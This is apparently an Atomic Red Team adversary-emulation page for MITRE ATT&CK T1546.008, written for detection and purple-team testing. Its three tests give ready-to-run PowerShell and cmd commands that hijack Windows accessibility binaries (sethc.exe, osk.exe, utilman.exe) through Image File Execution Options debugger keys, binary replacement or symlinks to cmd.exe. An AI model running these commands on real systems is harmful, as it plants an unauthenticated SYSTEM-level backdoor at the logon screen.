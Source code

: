# T1546.008 - Event Triggered Execution: Accessibility Features

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/008)

<blockquote>Adversaries may establish persistence and/or elevate privileges by executing malicious content triggered by accessibility features. Windows contains accessibility features that may be launched with a key combination before a user has logged in (ex: when the user is on the Windows logon screen). An adversary can modify the way these programs are launched to get a command prompt or backdoor without logging in to the system.

Two common accessibility programs are <code>C:\Windows\System32\sethc.exe</code>, launched when the shift key is pressed five times and <code>C:\Windows\System32\utilman.exe</code>, launched when the Windows + U key combination is pressed. The sethc.exe program is often referred to as "sticky keys", and has been used by adversaries for unauthenticated access through a remote desktop login screen. (Citation: FireEye Hikit Rootkit)

Depending on the version of Windows, an adversary may take advantage of these features in different ways. Common methods used by adversaries include replacing accessibility feature binaries or pointers/references to these binaries in the Registry. In newer versions of Windows, the replaced binary needs to be digitally signed for x64 systems, the binary must reside in <code>%systemdir%</code>, and it must be protected by Windows File or Resource Protection (WFP/WRP). (Citation: DEFCON2016 Sticky Keys) The [Image File Execution Options Injection](https://attack.mitre.org/techniques/T1546/012) debugger method was likely discovered as a potential workaround because it does not require the corresponding accessibility feature binary to be replaced.

For simple binary replacement on Windows XP and later as well as and Windows Server 2003/R2 and later, for example, the program (e.g., <code>C:\Windows\System32\utilman.exe</code>) may be replaced with "cmd.exe" (or another program that provides backdoor access). Subsequently, pressing the appropriate key combination at the login screen while sitting at the keyboard or when connected over [Remote Desktop Protocol](https://attack.mitre.org/techniques/T1021/001) will cause the replaced file to be executed with SYSTEM privileges. (Citation: Tilbury 2014)

Other accessibility features exist that may also be leveraged in a similar fashion: (Citation: DEFCON2016 Sticky Keys)(Citation: Narrator Accessibility Abuse)

- On-Screen Keyboard: <code>C:\Windows\System32\osk.exe</code>
- Magnifier: <code>C:\Windows\System32\Magnify.exe</code>
- Narrator: <code>C:\Windows\System32\Narrator.exe</code>
- Display Switcher: <code>C:\Windows\System32\DisplaySwitch.exe</code>
- App Switcher: <code>C:\Windows\System32\AtBroker.exe</code></blockquote>

## Atomic Tests

- [Atomic Test #1 - Attaches Command Prompt as a Debugger to a List of Target Processes](#atomic-test-1---attaches-command-prompt-as-a-debugger-to-a-list-of-target-processes)

- [Atomic Test #2 - Replace binary of sticky keys](#atomic-test-2---replace-binary-of-sticky-keys)

- [Atomic Test #3 - Create Symbolic Link From osk.exe to cmd.exe](#atomic-test-3---create-symbolic-link-from-oskexe-to-cmdexe)

<br/>

## Atomic Test #1 - Attaches Command Prompt as a Debugger to a List of Target Processes

Attaches cmd.exe to a list of processes. Configure your own Input arguments to a different executable or list of executables.
Upon successful execution, powershell will modify the registry and swap osk.exe with cmd.exe.

**Supported Platforms:** Windows

**auto_generated_guid:** 3309f53e-b22b-4eb6-8fd2-a6cf58b355a9

#### Inputs:

| Name             | Description                                                                                                      | Type   | Default Value                                                                               |
| ---------------- | ---------------------------------------------------------------------------------------------------------------- | ------ | ------------------------------------------------------------------------------------------- |
| parent_list      | Comma separated list of system binaries to which you want to attach each #{attached_process}. Default: "osk.exe" | string | osk.exe, sethc.exe, utilman.exe, magnify.exe, narrator.exe, DisplaySwitch.exe, atbroker.exe |
| attached_process | Full path to process to attach to target in #{parent_list}. Default: cmd.exe                                     | path   | C:&#92;windows&#92;system32&#92;cmd.exe                                                     |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$input_table = "#{parent_list}".split(",")
$Name = "Debugger"
$Value = "#{attached_process}"
Foreach ($item in $input_table){
  $item = $item.trim()
  $registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\$item"
  IF(!(Test-Path $registryPath))
  {
    New-Item -Path $registryPath -Force
    New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType STRING -Force
  }
  ELSE
  {
    New-ItemProperty -Path $registryPath -Name $name -Value $Value
  }
}
```

#### Cleanup Commands:

```powershell
$input_table = "#{parent_list}".split(",")
Foreach ($item in $input_table)
{
  $item = $item.trim()
  reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\$item" /v Debugger /f 2>&1 | Out-Null
}
```

<br/>
<br/>

## Atomic Test #2 - Replace binary of sticky keys

Replace sticky keys binary (sethc.exe) with cmd.exe

**Supported Platforms:** Windows

**auto_generated_guid:** 934e90cf-29ca-48b3-863c-411737ad44e3

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
IF NOT EXIST C:\Windows\System32\sethc_backup.exe (copy C:\Windows\System32\sethc.exe C:\Windows\System32\sethc_backup.exe) ELSE ( pushd )
takeown /F C:\Windows\System32\sethc.exe /A
icacls C:\Windows\System32\sethc.exe /grant Administrators:F /t
copy /Y C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
```

#### Cleanup Commands:

```cmd
copy /Y C:\Windows\System32\sethc_backup.exe C:\Windows\System32\sethc.exe
```

<br/>
<br/>

## Atomic Test #3 - Create Symbolic Link From osk.exe to cmd.exe

Replace accessiblity executable with cmd.exe to provide elevated command prompt from login screen without logging in.

**Supported Platforms:** Windows

**auto_generated_guid:** 51ef369c-5e87-4f33-88cd-6d61be63edf2

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
IF NOT EXIST %windir%\System32\osk.exe.bak (copy %windir%\System32\osk.exe %windir%\System32\osk.exe.bak) ELSE ( pushd )
takeown /F %windir%\System32\osk.exe /A
icacls %windir%\System32\osk.exe /grant Administrators:F /t
del %windir%\System32\osk.exe
mklink %windir%\System32\osk.exe %windir%\System32\cmd.exe
```

#### Cleanup Commands:

```cmd
takeown /F %windir%\System32\osk.exe /A
icacls %windir%\System32\osk.exe /grant Administrators:F /t
del %windir%\System32\osk.exe
copy /Y %windir%\System32\osk.exe.bak %windir%\System32\osk.exe
icacls %windir%\system32\osk.exe /inheritance:d
icacls %windir%\system32\osk.exe /setowner "NT SERVICE\TrustedInstaller"
icacls %windir%\System32\osk.exe /grant "NT SERVICE\TrustedInstaller":F /t
icacls %windir%\system32\osk.exe /grant:r SYSTEM:RX
icacls %windir%\system32\osk.exe /grant:r Administrators:RX
```

<br/>

